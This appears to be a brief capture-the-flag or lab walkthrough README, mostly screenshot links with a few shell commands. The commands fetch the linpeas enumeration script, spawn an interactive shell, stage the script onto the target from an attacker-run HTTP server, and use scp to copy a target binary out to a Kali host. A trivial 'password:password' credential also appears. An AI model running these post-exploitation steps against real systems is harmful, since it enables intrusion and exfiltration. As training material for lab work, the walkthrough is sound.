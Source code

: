![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c4f456bf-481f-4ce8-89cc-fbcaa860062e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6fbb21c5-fa2c-4094-920e-72d3908711bb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc879096-27e7-4a39-9afe-b0e08c7184c4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a53f455-d6a6-4762-abb6-79e7678dd99a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be0575eb-eaa8-4b0a-a8b3-11c2e2f13f23)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56c6897c-1913-48e8-a1dd-9e721e221ce7)

password:password =)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9c250b2d-a230-45f2-beaf-6eb124d31f9d)

```
wget -c https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -m http.server 1234 
wget http://IP:1234/linpeas.sh
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3bdf2a3-7b17-43cb-98eb-6ecc48889f99)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c17fc64-e3ee-49b2-bba8-43b99faeb5f1)

```
cp /usr/bin/admin_toolkit /home/sysadmingrigory
scp -P 1234 admin_toolkit kali@IP:/home/kali
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abc606b-cb66-4feb-b335-5b6d5c38f264)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b2974a01-7c4f-48da-8b2d-85cdbf5d1d99)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/114be014-c571-4d1f-bd60-27535d8acd52)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e93d6988-317c-4f68-9aed-ea555f7bc8e8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/90c95595-ea80-48cb-baee-f79105c4ad0d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fa4e715c-e5de-44a0-95f9-6edf4a25590a)






